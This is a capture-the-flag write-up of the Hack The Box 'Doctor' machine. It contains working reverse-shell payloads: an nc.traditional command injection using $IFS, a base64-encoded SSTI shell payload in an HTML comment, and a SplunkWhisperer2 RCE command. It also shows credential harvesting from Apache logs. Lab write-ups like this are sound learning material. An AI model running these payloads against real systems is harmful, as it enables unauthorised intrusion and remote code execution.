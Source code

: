 ```yaml
---
title: Hackthebox - Doctor
date: 2020-09-30 00:00:00 +0530
categories: [hackthebox, linux]
tags: [splunk 8.0.5, csrf, ssti, splunkwhisperer2]     # TAG names should always be lowercase
image: /assets/img/posts/doctor/doctor_banner.png
---
```



![](/assets/img/posts/doctor/doctor_banner.png)



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.209 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T4 -oA scans/nmap.full 10.10.10.209`
```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
```
## Splunk

**[Splunk](https://www.splunk.com/) :** software for searching, monitoring, and analyzing machine-generated big data via a Web-style interface.

**Goto :** https://10.10.10.209:8089/ `Splunk Atom Feed: splunkd`

**Access :** Denied, need creds to access `services`

**Version :** server has Splunk build: 8.0.5 

**vulnerability :** [Abusing-Splunk-Forwarders](https://medium.com/@airman604/splunk-universal-forwarder-hijacking-5899c3e0e6b2)

**Exploit :** [PySplunkWhisperer](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2)

*Exploit requires creds*

## Web_server

- going through webserver on port `80` first thing i notice is a email address,

	  info@doctors.htb
	 
- I add domain `doctors.htb` from that email to `/etc/hosts` and check i there is any difference.
- **goto** `doctors.htb` redirected to `http://doctors.htb/login?next=%2F` and land on a login page .

### Enumerating doctors.htb

- try default logins or some injection on login page but got nothing .
- in the top right corner there is a Register button .

**Note :** registering a new account only valid for 20 minutes as the domain shows this message after registering account
```
Your account has been created, with a time limit of twenty minutes! 
```
- after login i check pages source codes and found a comment

	  <!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->
	  
- **goto** `http://doctors.htb/archive` got blank page viewing source got `<title>Archive</title>`

- this domain `Doctor Secure Messaging` all about posting staff messages.
- as a logged in user i can post a message, so i create a new message.
- my post is on `http://doctors.htb/post/2` 
- this shows `post/2` but this is my first post, i check first post and this is a post from admin and nothing interested here.
- I also check `/archive` source again and the `<title>` tag now updated with my post title
- try injections on `http://doctors.htb/post/new` page
- i use different injection payloads from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- found 2 successful injections in `http://doctors.htb/post/new`
    - **CSRF** in `Content` field
    - **SSTI** in `title` field

*I learn Both Attacks from scratch*

*some resources that help me*

**Server-Side Template Injection**

https://www.youtube.com/watch?v=3cT0uE7Y87s

https://portswigger.net/research/server-side-template-injection

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

**Cross-site request forgery**

https://www.youtube.com/watch?v=vRBihr41JTo

https://portswigger.net/web-security/csrf


#### CSRF Test

**Payload** `<a href="http://tun0/test">TestURL</a>`

**Response** `10.10.10.209 - - [05/Nov/2020 15:24:15] "GET /test HTTP/1.1" 200 -`

#### SSTI Test

**Payload** 

```py
{ { 7 * 7 } }
```

**Response** in `/archive` page source code `<title>` tag updated as `49`


# User Exploit

*Both injection give shell in the box*

## with CSRF

**Payload :** `http://tun0/$(nc.traditional$IFS-e/bin/sh$IFS'tun0'$IFS'4141')`

- load the payload in Content field and post the message and shell pop in netcat .
- spaces in the code are a problem for the execution of the code,
- thats why i use `$IFS` as this is a space-replacer for Linux Bash .
	- [IFS](https://mywiki.wooledge.org/IFS) : 
	variable is used in shells (Bourne, POSIX, ksh, bash) as the input field separator
	The default value of IFS is space, tab, newline. 

## with SSTI

**Payload :**

![](/assets/img/posts/doctor/ssti-payload1.png)

<!-- base64 encoded payload
eyUgd2l0aCBzc3RpID0gcmVxdWVzdFsiYXBwbGljYXRpb24iXVsiXHg1Zlx4NWZnbG9iYWxzXHg1Zlx4NWYiXVsiXHg1Zlx4NWZidWlsdGluc1x4NWZceDVmIl1bIlx4NWZceDVmaW1wb3J0XHg1Zlx4NWYiXSgib3MiKVsicG9wZW4iXSgiZWNobyAtbiBMMkpwYmk5aVlYTm9JQzFqSUNkaVlYTm9JQzFwSUQ0bUlDOWtaWFl2ZEdOd0x6RXdMakV3TGpFMUxqY3hMelF4TkRFZ01ENG1NU2M9IHwgYmFzZTY0IC1kIHwgYmFzaCIpWyJyZWFkIl0oKSAlfSAlMjU3QiUyNTdCc3N0aSUyNTdEJTI1N0QgeyUgZW5kd2l0aCAlfQ==
-->

got that working payload from : https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-popen-without-guessing-the-offset

- load the payload in title field and post the message than go to `/archive` execute the payload and pop shell in netcat .

### Enumerating web@doctor

- `cat /etc/passwd` shows two users

	  shaun:x:1002:1002:shaun,,,:/home/shaun:/bin/bash
	  splunk:x:1003:1003:Splunk Server:/opt/splunkforwarder:/bin/bash

- linpeas script password string in apache2 logs

	  /var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"

- got password, i tried that password for both users and worked for user `shaun`
	`shaun:Guitar123`

```
shaun@doctor:~$ cat user.txt
cat user.txt
aaaab5f8************************
```

# Local Enumeration

- I already found a Auth RCE for Splunk so first i try to login with these cred in splunk on port 8089
- login successful and i run that [exploit](https://github.com/x00tex/hackTheBox/blob/main/Boxes/linux/Retired/doctor/exploit/SplunkWhisperer2_RCE.py)

# Root Privesc

## SplunkWhisperer RCE

`python SplunkWhisperer2_RCE.py --host 10.10.10.209 --username shaun --password Guitar123 --lhost tun0 --payload 'nc.traditional -e '/bin/sh' tun0 4242'`

- open netcat listener
- The exploit is straightforward and get a direct rootshell on nc listener .
```
root@doctor:/root# cat root.txt
cat root.txt
e03b774e************************
```